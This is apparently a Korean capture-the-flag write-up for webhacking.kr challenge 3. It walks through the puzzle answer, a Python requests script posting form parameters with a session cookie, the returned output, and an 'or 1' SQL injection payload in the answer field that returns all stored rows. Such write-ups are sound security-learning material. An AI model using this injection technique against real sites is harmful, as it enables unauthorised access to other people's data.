 ================================================================================================================
[webhacking.kr] 03
================================================================================================================

|

.. graphviz::

    digraph G {
        rankdir="LR";
        node[shape="point"];
        edge[arrowhead="none"]

        {
            rank="same";
            "client"[shape="plaintext"];
            "client" -> step0 -> step2 -> step4 -> step6 -> step8;
        }

        {
            rank="same";
            "server"[shape="plaintext"];
            "server" -> step1 -> step3 -> step5 -> step7 -> step9;
        }
        step0 -> step1[label="answer=1&id=1",arrowhead="normal"];
        step3 -> step2[label="<p>name : 1<br>answer : 1<br>ip : 125.x.x.x<hr>",arrowhead="normal"];
        step4 -> step5[label="answer=1 or 1&id=1",arrowhead="normal"];
        step7 -> step6[label="@solve",arrowhead="normal"];
    }

|

취약점 존재 여부 확인
================================================================================================================

- 해당 페이지는 퍼즐 형식으로 되어 있는데 퍼즐을 풀면 그때부터 문제가 시작됩니다.
- 해당 퍼즐 정답은 다음과 같습니다.

.. image:: ../_images/web-03_1.png
        :align: center


- 정답 입력후 gogo 버튼을 클릭하면 다음과 같은 화면이 출력된다. 

.. image:: ../_images/web-03_2.png
        :align: center


- POST  페이지 취약점
- POST 파라미터: answer, id

.. code-block:: html

    <html>
    <head>
    <title>Challenge 3</title>
    </head>
    <body>
    <center>Puzzle</center>
    <p>
    <hr>

    <form name=kk method=get action=index.php>

    </form><form method=post action=index.php><input type=hidden name=answer value=1010100000011100101011111>name : <input type=text name=id maxlength=10 size=10><input type=submit value='write'>

|

POST Parameter
================================================================================================================

임의의 값을 입력하여 출력되는 메시지를 확인한다.

.. code-block:: python

    import requests

    url = "http://webhacking.kr/challenge/web/web-03/index.php?_1=1&_2=0&_3=1&_4=0&_5=1&_6=0&_7=0&_8=0&_9=0&_10=0&_11=0&_12=1&_13=1&_14=1&_15=0&_16=0&_17=1&_18=0&_19=1&_20=0&_21=1&_22=1&_23=1&_24=1&_25=1&_answer=1010100000011100101011111"
    cookies = {
        "PHPSESSID":"di0tppi0hjd8prirqbkkl6isj2",
    }
    data = {
        "answer": "1",
        "id":"1"
    }
    r = requests.post(url, data=data, cookies = cookies, verify=False)

    print r.content
    
출력 결과는 다음과 같다.

.. code-block:: html

    <html>
    <head>
    <title>Challenge 3</title>
    </head>
    <body>
    <center>Puzzle</center>
    <p>
    <hr>

    <form name=kk method=get action=index.php>

    <p>name : 1<br>answer : 1<br>ip : 125.x.x.x<hr><p>name : 1<br>answer : 1<br>ip : 125.x.x.x<hr><p>name : 1<br>answer : 1<br>ip : 125.x.x.x<hr><p>name : 33<br>answer : 1<br>ip : 125.x.x.x<hr><p>name : 33<br>answer : 1<br>ip : 125.x.x.x<hr><p>name : 33<br>answer : 1||1<br>ip : 125.x.x.x<hr>

|

해당 문제에 입력 부분은 name과 answer이고, 출력 부분은 name, answer, ip이다.

출력 결과를 보면 ip는 항상 같고, answer가 같은 값을 입력한 상태에서 
name값을 다르게 입력하면 누적형식으로 쌓인 데이터를 확인할 수 있다. 

SQL 쿼리문으로 표현하면 다음과 같다.

.. code-block:: sql
    
    select id, answer, ip from $table_name where ip= $_SERVER[REMOTE_ADDR] and answer = $_POST[answer]

|


$_POST[answer]에 참인 값을 or 형식으로 넣어주면 모든 answer 출력 결과를 얻을 수 있다.

.. code-block:: sql
    
    select id, answer, ip from $table_name where ip= $_SERVER[REMOTE_ADDR] and answer = 1 or 1


